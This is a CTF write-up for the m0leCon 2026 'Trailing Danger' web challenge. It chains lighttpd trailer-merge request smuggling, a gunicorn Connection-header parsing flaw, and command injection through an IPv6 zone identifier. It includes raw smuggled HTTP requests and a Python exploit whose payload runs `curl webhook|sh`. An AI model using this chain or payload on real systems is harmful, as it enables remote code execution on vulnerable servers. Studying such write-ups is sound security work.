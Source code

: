 # m0leCon CTF 2026 Teaser

# [web] Trailing Danger (16 solves)

The proxy I use is the best, I completely trust it. I doubt you will be able to bypass its protections.

Author: Sebastiano Sartor <@sebsrt>

## Overview

The goal of the challenge is to bypass the proxy rule `url.access-deny = ( "debug" )`
and achieve RCE on the `/debug` endpoint.
```python
@app.post("/debug")
@validate_ip
def ping(ip_address: str):
    try:
        os.popen(f'ping -c 1 {ip_address}')
        return jsonify({"status": "success"})    
    except subprocess.TimeoutExpired:
        return jsonify({"error": "Ping request timed out"}), 408
    except Exception as e:
        return jsonify({"error": str(e)}), 500
```

## Solution

### 1. TR.MRG HTTP Request Smuggling

Lighttpd 1.4.80 is used as proxy. This version is vulnerable to HTTP Header Smuggling due to trailer fields merge with headers,
you can find the fix for the vulnerability here: [[core] security: fix to reject disallowed trailers](https://github.com/lighttpd/lighttpd1.4/commit/35cb89c103877de62d6b63d0804255475d77e5e1).

the fix commit states that:
> lighttpd mod_proxy sends Connection: close to backends, so this bug isnot exploitable to send additional requests to backends

To make the bug exploitable we have to exploit another (common) parsing bug in webservers:

### 2. Connection header parsing bug

Many web servers only close a connection when they see the literal header `Connection: close`. 

However, [RFC 9110](https://www.rfc-editor.org/rfc/rfc9110#name-connection) allows the `Connection` header to carry multiple, comma-separated options, which must be parsed as independent tokens.
If the token `close` appears anywhere in that list, the connection **must not persist** (see [RFC 9112](https://www.rfc-editor.org/rfc/rfc9112.html#name-persistence)).

When lighttpd encounters these headers in the trailers:
```
TE: trailers
Upgrade: any
Connection: any
```
it returns an 'ambiguous' connection header: `Connection: close, upgrade, te`.

*This also bypasses the configuration restrictions as it should be configured with `proxy.header += ( "upgrade" => "enable" )` to support upgrade*

The **ambiguous connection header sent by the proxy won't be interpreted as `close` by gunicorn, leaving the connection open and enabling request smuggling**.

### 3. Command injection via IPv6 zone identifiers

IPv6 **link-local** addresses (`fe80::/10`) can exist on multiple interfaces of the same host. To disambiguate which link you mean, IPv6 text form allows a **zone identifier** (aka *zone index* / *scope ID*) appended as `%<zone>`:

```
fe80::1%eth0
```

[RFC 6874](https://datatracker.ietf.org/doc/html/rfc6874) defines how zones appear in URIs and constrains the characters allowed in the zone text:

> A `<zone_id>` SHOULD contain only ASCII characters classified as “unreserved” for use in URIs [RFC3986]. This excludes characters such as “]” or even “%” that would complicate parsing.

this gives us enough characters to build a valid IPv6 address that can contain shell commands, for example:

 `::1%$(curl webhook|sh)`


### Connecting the dots

Send the following request to lighttpd:
```http
POST / HTTP/1.1
Host: localhost:3002
Transfer-Encoding: chunked

7c
POST /debug HTTP/1.1
Host: localhost
Content-Type: application/json
Content-Length: 50

{"ip":"::1%$(curl webhook|sh)"}
0
Content-Length: 0
TE: trailers
Connection: x
```

It will:
- dechunk the request
- merge the trailer fields into headers overriding the content-length with `0`
- add the `te` token to the connection options.

This is the request that  will be forwarded to the backend:
```http
POST / HTTP/1.1
Host: localhost:3002
Content-Length: 0
Connection: close, te

POST /debug HTTP/1.1
Host: localhost
Content-Type: application/json
Content-Length: 50

{"ip":"::1%$(curl webhook|sh)"}
```

## Exploit
```python
import socket

webhook = "url"

cmd = f'{{"ip":"::1%$(curl {webhook}|sh)"}}'

smug = f'POST /debug HTTP/1.1\r\nHost: localhost\r\nContent-Type: application/json\r\nContent-Length: {len(cmd)}\r\n\r\n{cmd}'
req = f'POST / HTTP/1.1\r\nHost: localhost:3002\r\nTransfer-Encoding: chunked\r\n\r\n{len(smug):x}\r\n{smug}\r\n0\r\nContent-Length: 0\r\nTE: trailers\r\nConnection: x\r\n\r\n'

print(req)

try:
    sock = socket.create_connection(("trailing-danger.challs.m0lecon.it", 32769), timeout=20)
    sock.sendall(req.encode())
except Exception as e:
    print('error', e)
finally:
    sock.close()
```